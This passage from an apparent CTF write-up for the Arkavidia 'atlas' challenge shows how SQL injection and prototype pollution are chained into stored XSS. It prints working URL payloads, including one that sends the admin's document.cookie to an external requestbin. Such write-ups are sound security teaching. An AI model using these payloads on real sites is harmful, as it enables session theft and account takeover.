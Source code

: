 ```js
```

Since we control the value on the **points** object (using SQLi before), we have an idea to inject XSS payload on the **description** value. But, there is one requirement, **point** object must have filled value **isHtml** on the object. But, like you see on the response, there is no **isHtml** value. Do you remember previously that we can inject JSON object on the **meta** response value ? Yes, we will use that to host our Prototype Pollution payload. Since the unsafe **merge** function works recursively, we could pollute the JS prototype by using this value on the **meta** response :
```json
{"__proto__": {"isHtml": "true"}}
```

Above payload will pollute the JS prototype and add **.isHtml** value to all the object exist. 


## Combine the Vuln and Get the Flag
<hr>

By combining the two vuln, we come up with this url payload :
```
http://slave2.ctf.arkavidia.id:10021/#b.lng.lb=1&b.lat.lb=1&b.lng.ub=(select%20108)%20and%20false%20union%20select%20'bruh',2,3,4,'<script>alert(document.domain);</script>',1,JSON_OBJECT('__proto__',JSON_OBJECT('isHtml','true'))%20--%20-&b.lat.ub=1&o=bruh
```

Visiting above url, we could get a working XSS :
![XSS Trigger](/assets/media/arkavidia_atlas_xss.png)

After verify the working XSS, we then try to change the url payload to perform a request to our requestbin and try to leak the admin cookie (if there is any):
```
http://slave2.ctf.arkavidia.id:10021/#b.lng.lb=1&b.lat.lb=1&b.lng.ub=(select%20108)%20and%20false%20union%20select%20'bruh',2,3,4,'%3Cimg%20src%3d%22https://<reqbin url>/?a%3d%22%2bdocument.cookie%3E',1,JSON_OBJECT('__proto__',JSON_OBJECT('isHtml','true'))%20--%20-&b.lat.ub=1&o=bruh
```

Send it by trigger **reportMap()** function on the console after visiting above url, wait some time, and we receive connection from admin and the flag is located on the User-Agent :
